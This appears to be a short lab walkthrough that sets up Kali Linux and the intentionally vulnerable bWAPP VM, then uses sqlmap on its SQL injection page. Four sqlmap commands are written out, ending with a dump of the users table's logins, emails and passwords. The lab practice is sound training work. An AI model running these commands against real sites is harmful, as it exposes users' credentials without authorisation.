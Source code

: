 # Kali + bWAPP

1\) install Kali and bWAPP vm in virtual box;

![](/pentest/VirtualBox-2-VM.png)



2\) launch bWAP and make sure it is running;

![](/pentest/bWAPP-VM.png)



3\) Launch Kali and make sure you can access the bWAPP from Iceweasel.

![](/pentest/access-bWAPP-from-kali.png)

4\)  Go to SQL Injection \(GET/Search\)

![](/pentest/choose-SQL-GET.png)



5\) key in a search string; copy of the resulted URL;![](/pentest/key-in-search-box.png)

6\) Find out the cookie for the site;

![](/pentest/get-cookie-1.png)

![](/pentest/get-cookie-2.png)



**Now, it is show time; launch SQLmap from terminal;**

**step1 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" --dbs

![](/pentest/s1-sql-all-dbs.png)

**step2 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_--tables

![](/pentest/s2-all-tables.png)

**step3 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_-T _**users **_--columns

![](/pentest/s3-all-column.png)

**step4 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --

cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D bWAPP -T users -C** login,email,password** --dump

![](/pentest/s4-all-user-pwd.png)

